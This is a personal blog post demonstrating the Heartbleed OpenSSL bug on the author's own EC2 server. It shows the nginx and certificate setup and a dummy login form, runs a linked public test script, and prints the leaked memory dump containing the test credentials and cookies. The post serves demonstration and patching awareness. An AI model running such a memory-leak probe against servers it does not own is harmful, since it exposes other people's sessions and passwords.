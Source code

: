 ```yaml
---
layout: post
title: Heartbleed
category: posts
---
```


The [Heartbleed Bug](http://heartbleed.com/) is a huge deal. It allows anyone to read the RAM of a vulnerable system, exposing user sessions, cookies, passwords, etc. I setup a fresh new ec2 instance and installed nginx with the intent of exploring and testing the heartbleed bug.

The first thing I did was check which version of OpenSSL I was running. Turns out Ubuntu 12.04 comes with a vulnerable version:

{% highlight bash %}
$ openssl version -a
OpenSSL 1.0.1 14 Mar 2012
built on: Wed Jan  8 20:45:51 UTC 2014
platform: debian-amd64
options:  bn(64,64) rc4(16x,int) des(idx,cisc,16,int) blowfish(idx)
compiler: cc -fPIC -DOPENSSL_PIC -DZLIB -DOPENSSL_THREADS -D_REENTRANT -DDSO_DLFCN -DHAVE_DLFCN_H -m64 -DL_ENDIAN -DTERMIO -g -O2 -fstack-protector --param=ssp-buffer-size=4 -Wformat -Wformat-security -Werror=format-security -D_FORTIFY_SOURCE=2 -Wl,-Bsymbolic-functions -Wl,-z,relro -Wa,--noexecstack -Wall -DOPENSSL_NO_TLS1_2_CLIENT -DOPENSSL_MAX_TLS1_2_CIPHER_LENGTH=50 -DMD32_REG_T=int -DOPENSSL_IA32_SSE2 -DOPENSSL_BN_ASM_MONT -DOPENSSL_BN_ASM_MONT5 -DOPENSSL_BN_ASM_GF2m -DSHA1_ASM -DSHA256_ASM -DSHA512_ASM -DMD5_ASM -DAES_ASM -DVPAES_ASM -DBSAES_ASM -DWHIRLPOOL_ASM -DGHASH_ASM
OPENSSLDIR: "/usr/lib/ssl"
{% endhighlight %}

Next I installed nginx and self-signed my own cert:

{% highlight bash %}
$ sudo apt-get install nginx
$ sudo mkdir -p /etc/nginx/ssl/keys
$ cd /etc/nginx/ssl/keys
$ openssl genrsa -des3 -out self-ssl.key 1024
$ openssl req -new -key self-ssl.key -out self-ssl.csr
$ openssl x509 -req -days 365 -in self-ssl.csr -signkey self-ssl.key -out self-ssl.crt
{% endhighlight %}

Then I configured nginx:

{% highlight bash %}
$ sudo vim /etc/nginx/sites-enabled/default

server {
  listen 443;
  server_name heartbleed;

  root /usr/share/nginx/www;
  index index.html index.htm;

  ## SSL
  ssl on;
  ssl_certificate /etc/nginx/ssl/keys/self-ssl.crt;
  ssl_certificate_key /etc/nginx/ssl/keys/self-ssl.key;

  ## SSL caching/optimization
  ssl_protocols        SSLv3 TLSv1 TLSv1.1 TLSv1.2;
  ssl_ciphers RC4:HIGH:!aNULL:!MD5;
  ssl_prefer_server_ciphers on;
  keepalive_timeout    60;
  ssl_session_cache    shared:SSL:10m;
  ssl_session_timeout  10m;

  ## SSL log files
  access_log /var/log/nginx/heartbleed/ssl_access.log;
  error_log /var/log/nginx/heartbleed/ssl_error.log;

  location / {
    proxy_set_header        Accept-Encoding   "";
    proxy_set_header        Host              $http_host;
    proxy_set_header        X-Forwarded-By    $server_addr:$server_port;
    proxy_set_header        X-Forwarded-For   $remote_addr;
    proxy_set_header        X-Forwarded-Proto $scheme;
    proxy_set_header        X-Real-IP         $remote_addr;
    proxy_next_upstream error timeout invalid_header http_500 http_502 http_503 http_504;
  }
}

{% endhighlight %}

I made a dummy html page with a form for submitting username/password. I also added a bit of javascript that set a cookie as well. 

{% highlight html %}
<form name="input" action="index.html" method="get">
  Username: <input type="text" name="username"> <br />
  Password: <input type="password" name="password"> <br />
  <input type="submit" value="Submit">
</form>

<script>
  document.cookie="heartbleed='Hi friends!'";
</script>
{% endhighlight %}

Then I ran [this script](https://gist.github.com/akenn/10159084) (the one mentioned in [this article](https://www.mattslifebytes.com/?p=533)) against myself. 

The dump had the most recent request in it including all cookies:

{% highlight bash %}
❯ python hb-test.py heartbleed.akenn.org

Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 549
 ... received message: type = 22, ver = 0302, length = 203
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 12 00 10 04  ....#...........
  00e0: 01 05 01 02 01 04 03 05 03 02 03 04 02 02 02 00  ................
  00f0: 12 00 00 5F 39 5F 32 29 20 41 70 70 6C 65 57 65  ..._9_2) AppleWe
  0100: 62 4B 69 74 2F 35 33 37 2E 33 36 20 28 4B 48 54  bKit/537.36 (KHT
  0110: 4D 4C 2C 20 6C 69 6B 65 20 47 65 63 6B 6F 29 20  ML, like Gecko) 
  0120: 43 68 72 6F 6D 65 2F 33 33 2E 30 2E 31 37 35 30  Chrome/33.0.1750
  0130: 2E 31 35 32 20 53 61 66 61 72 69 2F 35 33 37 2E  .152 Safari/537.
  0140: 33 36 0D 0A 52 65 66 65 72 65 72 3A 20 68 74 74  36..Referer: htt
  0150: 70 73 3A 2F 2F 68 65 61 72 74 62 6C 65 65 64 2E  ps://heartbleed.
  0160: 61 6B 65 6E 6E 2E 6F 72 67 2F 69 6E 64 65 78 2E  akenn.org/index.
  0170: 68 74 6D 6C 3F 75 73 65 72 6E 61 6D 65 3D 74 65  html?username=te
  0180: 73 74 26 70 61 73 73 77 6F 72 64 3D 61 64 73 66  st&password=adsf
  0190: 0D 0A 41 63 63 65 70 74 2D 45 6E 63 6F 64 69 6E  ..Accept-Encodin
  01a0: 67 3A 20 67 7A 69 70 2C 64 65 66 6C 61 74 65 2C  g: gzip,deflate,
  01b0: 73 64 63 68 0D 0A 41 63 63 65 70 74 2D 4C 61 6E  sdch..Accept-Lan
  01c0: 67 75 61 67 65 3A 20 65 6E 2D 55 53 2C 65 6E 3B  guage: en-US,en;
  01d0: 71 3D 30 2E 38 0D 0A 43 6F 6F 6B 69 65 3A 20 75  q=0.8..Cookie: u
  01e0: 73 65 72 6E 61 6D 65 3D 4A 6F 68 6E 20 44 6F 65  sername=John Doe
  01f0: 3B 20 68 65 61 72 74 62 6C 65 65 64 3D 27 48 69  ; heartbleed='Hi
  0200: 20 66 72 69 65 6E 64 73 21 27 0D 0A 0D 0A 1E 25   friends!'.....%
  0210: 49 D9 60 31 25 9C EA 14 2A 2F E4 86 82 B1 56 0A  I.`1%...*/....V.
  0220: 53 16 CB D3 B6 C4 00 00 00 00 00 00 00 00 00 00  S...............
  0230: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0240: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0250: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0260: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................

.....

WARNING: server returned more data than it should - server is vulnerable!
{% endhighlight %}

As you can see, my most recent request (a `GET` request to the same url with username and password as params) has the cookies I passed along in the request in there. Now imagine doing that to a much larger site and getting someone's sessionID or some equivalent.

This is a really, really scary bug. Make sure your version of OpenSSL is patched! More at: http://heartbleed.com/
